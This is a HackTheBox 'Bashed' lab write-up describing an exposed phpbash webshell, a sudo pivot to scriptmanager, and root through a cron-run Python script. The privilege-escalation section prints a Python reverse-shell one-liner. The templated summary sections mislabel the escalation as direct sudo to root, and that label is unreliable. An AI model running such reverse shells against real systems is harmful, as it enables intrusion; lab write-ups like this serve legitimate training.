# HackTheBox - Bashed

**OS:** Linux

Bashed is a Linux box where the developer left their own hacking tool - phpbash, a PHP webshell - on the production server. Initial access is just navigating to it. From there a misconfigured sudo rule allows lateral movement to a second user, who can modify a Python script that root executes on a cron schedule.

| Field | Value |
|---|---|
| Platform | HTB |
| Target | `<target-ip>` |
| Initial Access | Exposed phpbash webshell on the web server |
| Privilege Escalation | Over-broad sudo rights to root |
| Final Access | root |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was Exposed phpbash webshell on the web server.
3. Post-exploitation enumeration exposed Over-broad sudo rights to root.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

### Web Enumeration

The Apache server on port 80 hosted a blog post describing phpbash, a standalone semi-interactive PHP shell written and tested on this very server. That detail was enough to start looking for it. Directory enumeration found it sitting at `/dev/phpbash.php`.





---

## Initial Access

Browsing to `/dev/phpbash.php` gave immediate command execution as `www-data`. No credentials required.



---

## Privilege Escalation

### Lateral Movement to scriptmanager

`sudo -l` showed `www-data` could run any command as `scriptmanager` without a password. The phpbash shell is semi-interactive and couldn't spawn a proper session, so I used it to send a Python reverse shell back to a netcat listener.



```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<target-ip>",80));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```



With an interactive shell, pivoting to `scriptmanager` was a single sudo command.



### Cron Script Replacement

`scriptmanager` had write access to `/scripts/`, which contained `test.py`. The output file `test.txt` was owned by root and its modification time updated every minute - root was running `test.py` on a cron. Replacing `test.py` with a Python reverse shell payload and waiting gave a root callback.











---

## Summary

Bashed demonstrates why development artifacts should never reach production. The phpbash shell being left on the server collapses the initial access step to a browser visit. The privilege escalation is a clean example of the writable-script-in-root-cron pattern.

**Key takeaway:** Tools developed and tested on a system often stay on it - developer tooling left in web-accessible directories is a reliable initial access path.

---

## Root Cause

The demonstrated path worked because local privilege boundary misconfiguration gave the attacker a bridge from reconnaissance to execution. The important pattern is the chain: Exposed phpbash webshell on the web server created a foothold, and Over-broad sudo rights to root converted that foothold into root.

## Impact

Successful exploitation reached root. That level of access allows command execution, proof or sensitive-file access, credential collection, and a realistic path to additional systems if the same credentials, services, or trust relationships exist elsewhere.

## Remediation

- Remove or harden the specific exposure used for initial access: Exposed phpbash webshell on the web server.
- Fix the privilege boundary that enabled escalation: Over-broad sudo rights to root.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.

## Detection Opportunities

- Alert on exploit attempts or suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, new process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: Over-broad sudo rights to root.

## Lessons Learned

- The winning path was not just a vulnerable service; it was the connection between Exposed phpbash webshell on the web server and Over-broad sudo rights to root.
- Preserve the observations that explain why each pivot made sense, not only the commands that worked.
- Write remediation from the root cause of each step so the report reads like an operator narrative and a defender action plan.
